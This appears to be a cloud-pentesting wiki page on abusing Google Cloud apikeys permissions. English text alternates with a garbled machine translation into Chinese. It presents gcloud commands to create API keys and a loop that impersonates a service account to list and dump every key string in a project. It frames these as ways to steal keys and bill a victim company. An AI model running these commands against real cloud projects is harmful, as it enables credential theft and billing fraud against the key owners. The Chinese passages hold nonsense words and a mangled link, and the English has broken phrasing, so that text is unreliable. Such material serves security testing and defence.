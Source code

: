 The following permissions are useful to create and steal API keys, not this from the docs: _An API key is a simple encrypted string that **identifies an application without any principal**. They are useful for accessing **public data anonymously**, and are used to **associate** API requests with your project for quota and **billing**._

以下权限可用于创建和窃取API键，而不是从文档中来窃取API键：_AN API键是一个简单的加密字符串，**可以标识没有任何主体**的应用程序。 它们对于匿名访问**公共数据很有用，并且用于** apciate ** api请求与您的项目和**帐单**。

Therefore, with an API key you can make that company pay for your use of the API, but you won't be able to escalate privileges.

因此，使用API密钥，您可以使该公司为使用API付费，但是您将无法升级特权。

## apikeys.keys.create <a href="#apikeys.keys.create" id="apikeys.keys.create"></a>

## api keys.keys.create <a href="#apikeys.keys.keys.create" id="api keys.keys.keys.create"> </a>

This permission allows to **create an API key**:

此权限允许**创建API密钥**：

```bash
gcloud alpha services api-keys create
Operation [operations/akmf.p7-[...]9] complete. Result: {
    "@type":"type.googleapis.com/google.api.apikeys.v2.Key",
    "createTime":"2022-01-26T12:23:06.281029Z",
    "etag":"W/\"HOhA[...]==\"",
    "keyString":"AIzaSy[...]oU",
    "name":"projects/5[...]6/locations/global/keys/f707[...]e8",
    "uid":"f707[...]e8",
    "updateTime":"2022-01-26T12:23:06.378442Z"
}
```

You can find a script to automate the [**creation, exploit and cleaning of a vuln environment here**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/b-apikeys.keys.create.sh).

您可以在此处找到一个脚本来自动化[**创建，利用和清洁vuln环境**]（https://github.com/carloppolop/gcp \ _privescccccccccccrive_scripts/blob/main/main/main/main/tests/b-apikeys/b-apikeysys/b-apikeysys .keys.create.sh）。

## apikeys.keys.getKeyString,apikeys.keys.list <a href="#apikeys.keys.getkeystringapikeys.keys.list" id="apikeys.keys.getkeystringapikeys.keys.list"></a>

These permissions allows **list and get all the apiKeys and get the Key**:

这些权限允许**列表并获取所有apikeys并获取密钥**：

```bash
gcloud alpha services api-keys create
for  key  in  $(gcloud --impersonate-service-account="${SERVICE_ACCOUNT_ID}@${PROJECT_ID}.iam.gserviceaccount.com" alpha services api-keys list --uri); do
	gcloud --impersonate-service-account="${SERVICE_ACCOUNT_ID}@${PROJECT_ID}.iam.gserviceaccount.com" alpha services api-keys get-key-string "$key"
done
```
